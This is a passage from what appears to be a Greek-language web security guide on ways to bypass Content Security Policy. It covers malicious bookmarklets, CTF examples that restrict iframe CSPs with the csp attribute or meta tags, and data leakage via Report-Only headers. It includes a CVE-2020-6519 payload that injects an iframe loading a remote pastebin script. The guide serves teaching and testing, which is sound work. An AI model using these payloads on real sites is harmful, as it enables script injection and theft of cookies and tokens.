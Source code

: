 Αυτή η επίθεση θα περιλάμβανε κάποια κοινωνική μηχανική όπου ο επιτιθέμενος **πείθει τον χρήστη να σύρει και να αποθέσει ένα σύνδεσμο πάνω στο bookmarklet του προγράμματος περιήγησης**. Αυτό το bookmarklet θα περιείχε **κακόβουλο κώδικα JavaScript** που όταν σύρετε και αποθέσετε ή κάνετε κλικ, θα εκτελείται στο πλαίσιο του τρέχοντος παραθύρου περιήγησης, **παρακάμπτοντας το CSP και επιτρέποντας την κλοπή ευαίσθητων πληροφοριών** όπως cookies ή τεκμήρια.

Για περισσότερες πληροφορίες [**ελέγξτε την αρχική αναφορά εδώ**](https://socradar.io/csp-bypass-unveiled-the-hidden-threat-of-bookmarklets/).

### Παράκαμψη CSP περιορίζοντας το CSP

Σε [**αυτήν την ανάλυση CTF**](https://github.com/google/google-ctf/tree/master/2023/web-biohazard/solution), το CSP παρακάμπτεται με το να ενσωματώνεται μέσα σε ένα επιτρεπόμενο iframe ένα πιο περιοριστικό CSP που απαγόρευε τη φόρτωση ενός συγκεκριμένου αρχείου JS που, στη συνέχεια, μέσω **προσβολής πρωτοτύπου** ή **καταστροφής dom** επέτρεψε να **καταχραστεί ένα διαφορετικό script για τη φόρτωση ενός αυθαίρετου script**.

Μπορείτε να **περιορίσετε ένα CSP ενός iframe** με το χαρακτηριστικό **`csp`**:

{% code overflow="wrap" %}
```html
<iframe src="https://biohazard-web.2023.ctfcompetition.com/view/[bio_id]" csp="script-src https://biohazard-web.2023.ctfcompetition.com/static/closure-library/ https://biohazard-web.2023.ctfcompetition.com/static/sanitizer.js https://biohazard-web.2023.ctfcompetition.com/static/main.js 'unsafe-inline' 'unsafe-eval'"></iframe>
```
{% endcode %}

Στο [**συγκεκριμένο CTF writeup**](https://github.com/aszx87410/ctf-writeups/issues/48), ήταν δυνατό μέσω **ενσωμάτωσης HTML** να **περιοριστεί** περισσότερο ένα **CSP** έτσι ώστε ένα script που αποτρέπει το CSTI να απενεργοποιηθεί και συνεπώς η **ευπάθεια να γίνει εκμεταλλεύσιμη.**\
Το CSP μπορεί να γίνει πιο περιοριστικό χρησιμοποιώντας **ετικέτες meta HTML** και τα inline scripts μπορούν να απενεργοποιηθούν **αφαιρώντας** την **καταχώριση** που επιτρέπει το nonce τους και **ενεργοποιώντας συγκεκριμένο inline script μέσω sha**:
```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self'
'unsafe-eval' 'strict-dynamic'
'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2boz%2bCtD7RE4='
'sha256-Tz/iYFTnNe0de6izIdG%2bo6Xitl18uZfQWapSbxHE6Ic=';">
```
### JS εξυπηρέτηση με το Content-Security-Policy-Report-Only

Εάν μπορείτε να καταφέρετε να κάνετε τον εξυπηρετητή να ανταποκριθεί με την κεφαλίδα **`Content-Security-Policy-Report-Only`** με μια **τιμή που ελέγχετε εσείς** (ίσως λόγω ενός CRLF), θα μπορούσατε να τον κατευθύνετε προς τον δικό σας εξυπηρετητή και αν **τυλίξετε** το **περιεχόμενο JS** που θέλετε να εξυπηρετήσετε με **`<script>`** και επειδή είναι πολύ πιθανό να μην επιτρέπεται το `unsafe-inline` από το CSP, αυτό θα **ενεργοποιήσει ένα σφάλμα CSP** και ένα μέρος του script (που περιέχει τις ευαίσθητες πληροφορίες) θα σταλεί στον εξυπηρετητή από το `Content-Security-Policy-Report-Only`.

Για ένα παράδειγμα [**ελέγξτε αυτό το CTF writeup**](https://github.com/maple3142/My-CTF-Challenges/tree/master/TSJ%20CTF%202022/Nim%20Notes).

### [CVE-2020-6519](https://www.perimeterx.com/tech-blog/2020/csp-bypass-vuln-disclosure/)
```javascript
document.querySelector('DIV').innerHTML="<iframe src='javascript:var s = document.createElement(\"script\");s.src = \"https://pastebin.com/raw/dw5cWGK6\";document.body.appendChild(s);'></iframe>";
```
### Διαρροή Πληροφοριών με CSP και Iframe
